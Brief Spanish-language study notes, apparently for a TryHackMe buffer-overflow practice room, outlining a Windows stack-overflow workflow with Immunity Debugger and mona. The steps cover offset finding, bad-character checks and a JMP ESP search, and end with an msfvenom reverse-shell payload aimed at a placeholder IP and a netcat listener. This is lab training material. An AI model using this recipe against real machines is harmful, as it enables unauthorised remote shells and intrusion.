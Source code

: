 -------------------------------------------
# BUFFER OVERFLOW 
https://tryhackme.com/room/bufferoverflowprep  https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst

## Con Immunity Debugger y !mona

		!mona config -set workingfolder c:\mona\%p
fuzzer.py -> calcular offset
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l offset+400 >> exploit.py/payload
exploit.py 
		!mona findmsp -distance <offset> >> offset real en EIP
exploit.py <- cambiar el payload al de bytearray.py y offset al de arriba
		!mona bytearray -b "\x00"
		!mona compare -f c:\mona\oscp\bytearray.bin -a <direccion ESP> -> \x00 + badchars (en los consecutivos, solo suele importar el primero)

payload = msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "<BADCHARS>" -f py
retn = 	!mona jmp -r esp -cpb "\x00\x8c\xae\xbe\xfb"
padding = "\x90" * 16 (4 nops)
exploit.py -> añadir todo lo de arriba
nc -nlvp 4444 (en otra consola)
python exploit.py